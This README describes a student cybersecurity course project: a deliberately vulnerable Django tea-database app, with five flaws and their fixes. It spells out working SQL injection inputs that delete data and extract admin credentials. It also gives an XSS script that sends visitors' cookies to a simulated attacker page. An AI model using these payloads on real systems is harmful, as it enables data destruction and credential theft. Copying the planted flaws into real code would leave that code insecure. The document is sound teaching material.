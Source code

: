 # cybersecuritybaseproject
Course project for Introdution to cyber security

Project / flaw descriptions:

LINK: https://github.com/korolainenriikka/cybersecuritybaseproject

No specific installations / db migrations needed. Clone the project, cd to cybersecuritybaseproject/teetietokanta and run ```python3 manage.py runserver```. The app launches in [http://localhost:8000/](http://localhost:8000/).

a note on testing the injections below (flaws 1-3): the injections are highly dependent on the quote types used, be careful with copy-pasting. The exact working injection is inside the double quotes.

security flaw descriptions:

## FLAW 1: SQL injection vulnerability in tea insert form submit handler enables data erasure, encryption, etc.
* exact source link: https://github.com/korolainenriikka/cybersecuritybaseproject/blob/2f0970a2fc6ee4fdd777d39b4dde9a1a2f334661/teetietokanta/teet/views.py#L26
* description of flaw: The form submit is implemented using python sqlite3 library. A SQL command is executed with the executescript method, without a string template (simple +-sign concatenation is used), which enables a very easily-exploitable injection flaw. For example, when inserting the following site input: name: "tea deleter tea" and description "hyvä tee on joo'); DELETE FROM teet_tea; INSERT INTO teet_tea(name, description) VALUES ('hehee', 'maistas tuosta", an attacker could delete all tea data. Other, more severe injections such as DROP TABLES could also be executed, but if you try this, the other flaws cannot be tested with the same clone of the application, and you have to re-clone and launch the app (up to you, of course).
* how to fix: The most obvious fix would be to use execute() instead of executescript() and use string templates. However, because of queries such as UNION, some slightly more sophisticated vulnerabilities might still be left in the form handler. A fool-proof fix would be to use db operations supported by Django, in this case Tea.objects.create(name=name, description=description), as is shown in the commented line 30 of the submit handler.

## FLAW 2: Sensitive data exposure vulnerability: auth user credentials can be compromised with a SQL injection
* exact source link (same as flaw 1): https://github.com/korolainenriikka/cybersecuritybaseproject/blob/2f0970a2fc6ee4fdd777d39b4dde9a1a2f334661/teetietokanta/teet/views.py#L26
* description of flaw: a careless administrator had to note their password somewhere. As django by default only stores a password hash and the administrator thought it is smart to store password data close to where it is needed, the database has a table that contains the admin password in plaintext. The form submit handler makes it possible to fetch this password and other credentials from the password store table in a subquery. The admin credentials can be displayed on main page by submitting the form with two injection-performing inputs: first content being name: "admin username stealer tea", description: "admin username: ' || (SELECT username FROM auth_user) || ' " . The password can be retrieved with a similar query, using name: "admin password stealer tea" and description: "admin password: ' || (SELECT * FROM authuserpwdstore) || ' ".
* how to fix: obviously, store the admin password either in a password manager or memorize the password. Also the fixes presented in the flaw 1 section would fix this partially.

## FLAW 3: Cross-site scripting can be used to steal any site visitors' cookie data
* exact source link: https://github.com/korolainenriikka/cybersecuritybaseproject/blob/master/teetietokanta/teet/templates/teet/index.html#L16
* description of flaw: the tea app template does not validate form input to avoid injecting js scripts to the application main page. Therefore it is possible to submit a tea to the app that has a script in the description to, for example, send any site visitors' cookie data to a malicious site. The app has an sub-app simulating the attackers' own web page in url /blackhat/ and with the following tea form inputs cookies can be sent to this page: name: "cookie stealer tea", description: "an especially sweet n nice one! <script>var xhr = new XMLHttpRequest(); var url = "blackhat/sendcontent/?cookie="+document.cookie; xhr.open("GET", url, true); xhr.send();</script>". After this tea is submitted, the user cookie appears on the /blackhat/-page every time the tea app index is re-loaded.
* how to fix: django has built-in xss protection in the templates, which is disabled using the 'safe' -keyword in the linked line in index.html. Removing this keyword fixes the flaw.

## FLAW 4: Security misconfiguration: insufficient admin password validation
* exact source link: https://github.com/korolainenriikka/cybersecuritybaseproject/blob/master/teetietokanta/teetietokanta/settings.py#L89
* description of flaw: the password validation looks good on the surface, but it it missing one important validator: common password validation. Therefore it was possible to choose "password" as admin password. It would probably not require a lot of tries from an attacker to guess the right password and have full access to the admin panel of the application, where password can be changed, for example.
* how to fix: using Django default password config would suffice. The following validator config code snippet should be added to settings.py: {'NAME': 'django.contrib.auth.password_validation.CommonPasswordValidator'},

## FLAW 5: Insufficient logging & monitoring: all logs disabled
* exact source link: https://github.com/korolainenriikka/cybersecuritybaseproject/blob/master/teetietokanta/teetietokanta/settings.py#L103
* description of flaw: as the application admin panel and terminal filled with arbitrary-looking data, the site administrator decided to change the site configuration to not display any of this data. Therefore no logs of usage of the site is saved, and no attacks can be proven to have happened as no 'digital footprint' is left behind in the application.
* how to fix: again, this flaw was implemented by disabling default django configurations. Removing the custom logs config altogether from settings.py (lines 101-104) would enable the safer default logging configuration.
